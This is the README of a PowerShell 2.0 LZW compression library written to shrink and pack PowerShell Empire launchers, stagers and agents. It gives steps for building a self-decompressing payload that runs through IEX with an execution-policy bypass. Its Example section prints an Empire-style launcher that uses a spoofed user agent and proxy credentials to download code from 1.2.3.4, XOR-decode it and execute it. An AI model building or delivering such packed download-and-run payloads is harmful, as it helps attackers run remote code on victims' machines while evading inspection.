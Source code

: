 License
-------

DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE 

Version 2, December 2004 
                    
Copyright (C) 2004 Sam Hocevar <sam@hocevar.net> 

Everyone is permitted to copy and distribute verbatim or modified 

copies of this license document, and changing it is allowed as long 

as the name is changed. 

DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE 
           
TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION 

0. You just DO WHAT THE FUCK YOU WANT TO.



Powershell developper ?
-----------------------
I'm far away from a real Powershell developper, so be free to propose improvements and code size reduction tricks.


PoshLZW
--------
`PowerShell LZW` is a LZW compression/decompression library for Powershell 2.0


Powershell 2.0 ?
----------------
By default, if you wanna have compatility you'll have to use v2.0, as it's the case for PowerShell Empire.


iCodingSize !!?
---------------
LZW work by building a ephemeral dictionnary, feeded then by following bytes. The main idea is to encode bytes not on 8-bits but on iCodingSize-bits (9 to 15).

Why min at 9 ? 'cause less would mean size growth.

Why max at 15 ? Well... why not ;-)

So for example, 4-bytes can be encoded only on 9 bits (if you choose an iCodingSize value of 9 and if it's in the dictionnary).

This value is also the maximum size of the dictionnary : 2^iCodingSize-1.

It's stored in the output at index 0, encoded on 8-bits (a normal byte).


Five functions
---------------
Five Long functions :
* Bits-Shift : a simple bits shifting function that don't fucking exists in Powershell 2 !!?
* Bits-Read : read n-bits from an array of Bytes, at a certain position
* Bits-Write : write n-bits to an array of Bytes, at a certain position
* LZWCompress : Compress
* LZWDecompress : Decompress

These too long functions have been manually shortened to save space:
* bs (for Bits-Shift), 62 bytes long
* br (for Bits-Read), 225 bytes long
* bw (for Bits-Write), 247 bytes long
* lzwc (for LZWCompress), 395 bytes long
* lzwd (for LZWDecompress), 345 bytes long

Could certainly be optimized ;-)


Powershell script intended to be executed
-----------------------------------------
To use LZW it's simple :

1/ Declare functions (or import-module PoshLZW.ps1)

```PS> $m_=[math];
PS> function bs{...
PS> function bw{...
PS> function lzwc{...
```


2/ compress your powershell script :

  PS> $MyScript = "write-host 'Hello World';";

  PS> $lz = lzwc $MyScript 10;


3/ encode the compressed script in base64

  PS> $lz64 = [convert]::ToBase64String($lz);



4/ Build the payload with the overhead :

  PS> $payload = '$m_=[math];';

  PS> $payload+= 'function bs{...' + 'function br{...' + 'function lzwd{...';

  PS> $payload+= 'IEX(lzwd ([byte[]]([System.Convert]::FromBase64String("'+$lz64+'"))))';


Then you can execute the payload with #>powershell -nop -noni -ex bypass -c here-the-payload.

But take care about the command line size ;-)



Good rate ?
----------------
Here you'll find a comparison table of different payloads.
* Text : normal ps1 file/payload, without optimisation.
* H : overhead of 701 bytes (LZWDecompress, Bits-Read, Bits-Shift and IEX).
* 9-15 : iCodingSize, meaning encoding size in bits and also dictionnary size.
A way to use compression could be to run "powershell -c H+B64(LZW(T,9))"

 
|                      | Launcher | Stager |  Agent  |
|----------------------|----------|--------|---------|
|       Text as T      |   418    |  4 909 |  44 041 |
| B64(T)     | 1 116    | 13 092 | 117 444 |
|           LZW(T,9)   |   387    |  3 740 |  27 878 |
|     H+B64(LZW(T,9)   | 2 051    | 13 877 |  97 516 |
| B64(H+B64(LZW(T,9))  | 5 472    | 37 008 | 260 044 |
|           LZW(T,10)  |   426    |  3 260 |  24 934 |
|     H+B64(LZW(T,10)  | 2 112    | 12 127 |  85 885 |
| B64(H+B64(LZW(T,10)) | 5 632    | 32 340 | 229 028 |
|           LZW(T,11)  |   469    |  3 145 |  20 474 |
|     H+B64(LZW(T,11)  | 2 261    |*11 576*|  72 444 |
| B64(H+B64(LZW(T,11)) | 6 032    | 30 872 | 193 184 |
|           LZW(T,12)  |   511    |  3 373 |  18 312 |
|     H+B64(LZW(T,12)  | 2 237    | 11 600 |  63 583 |
| B64(H+B64(LZW(T,12)) | 5 968    | 30 936 | 169 556 |
|           LZW(T,13)  |   554    |  3 654 |  16 589 |
|     H+B64(LZW(T,13)  | 2 426    | 12 788 | *58 306*|
| B64(H+B64(LZW(T,13)) | 6 472    | 34 104 | 155 484 |
|           LZW(T,14)  |   596    |  3 935 |  17 545 |
|     H+B64(LZW(T,14)  | 2 481    | 13 243 |  59 852 |
| B64(H+B64(LZW(T,14)) | 6 616    | 35 316 | 159 608 |
|           LZW(T,15)  |   639    |  4 216 |  18 798 |
|     H+B64(LZW(T,15)  | 2 611    | 13 944 |  63 437 |
| B64(H+B64(LZW(T,15)) | 6 964    | 37 184 | 169 168 |



Example
-------

Stats
    $ PS > $text = '$Wc=NEW-ObjEcT SYStEM.Net.WEBCliENT;$u="Test/5.0 (Windows NT 5.1; Trident/1.0;) like Gecko";$wc.HeADerS.ADD("User-Agent",$u);$wc.ProXY = [SYSTem.Net.WEBREQuEsT]::DEFAulTWebPROXY;$WC.PRoxy.CReDEnTIaLS = [SYStEM.NET.CRedEnTiALCACHe]::DEFAulTNetwORKCredenTiaLs;$K="aaaaaaaabbbbbbbbcccccccceeeeeeee";$I=0;[chAr[]]$b=([CHAr[]]($wC.DowNlOaDSTRing("http://1.2.3.4:80/index.asp")))|%{$_-BXoR$k[$i++%$k.LeNgTH]};IEX ($B-jOIn"")';
    $ PS > #$text = [System.Text.Encoding]::ASCII.GetString([System.IO.File]::ReadAllBytes("stager.ps1"));
    $ PS > #$text = [System.Text.Encoding]::ASCII.GetString([System.IO.File]::ReadAllBytes("agent.ps1"));
    $ PS > write-host "|                 Text   |" $text.length
    $ PS > write-host "|             B64(Text)  |" ([Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($text))).length
    $ PS > foreach ($i in 9..15){
    $ PS > 	$lzw = lzwc $text $i;
    $ PS > 	write-host "|           LZW(T,$i)  |" $lzw.length;
    $ PS > 	$64lzw = [convert]::ToBase64String($lzw);
    $ PS > 	$overhead='$m_=[math];function bs{param($v,$s)return $m_::Floor($v*$m_::Pow(2,-$s))}function br{param($o,$c,$a)$p=$i=$e=0;$j=$m_::floor(($t=$a.value)*$c/8);$s=($r=8-(($t*$c)%8))-$c;$b=$m_::Pow(2,$c)-1;while($e-lt$c){$p=$p-bor((bs $o[$j+$i] $s)-band$b);$e+=$r;$r=$m_::max($r,8);$s+=8;$i++}$a.value++;return $p}';
    $ PS > function lzwd{param($p)$a=$j=0;$v=@();$e=$o="";$c=$p[0];$p=$p[1..$p.length];foreach($i in 0..255){$v+=[string]([char]$i)}$o+=($w=[string]$v[($j=br $p $c ([ref]$a))]);while([math]::floor($a*$c/8)-lt($p.length-1)){$l=$v.count;$j=br $p $c ([ref]$a);$o+=$v[$j];if($j-lt$l){$e=[string]$v[$j]}elseif($j-eq$l){$e=$w+$w[0]}$v+=$w+$e[0];$w=$e}return $o;}IEX(lzwd ([byte[]]([System.Convert]::FromBase64String("'+$lzw+'"))))';
    $ PS > 	write-host "|     H+B64(LZW(T,$i)  |" $overhead.length;
    $ PS > 	$b64hz = [convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($overhead));
    $ PS > 	write-host "| B64(H+B64(LZW(T,$i)) |" $b64hz.length;
    $ PS > }

Last word ?
-----------

         ///\\\  ( Have Fun )
        ( ^  ^ ) /
      __(  __  )__
     / _ `----' _ \
     \__\   _   |__\
      (..) _| _ (..)
       |____(___|     Mynameisv_ 2016
_ __ _ (____)____) _ _________________________________ _'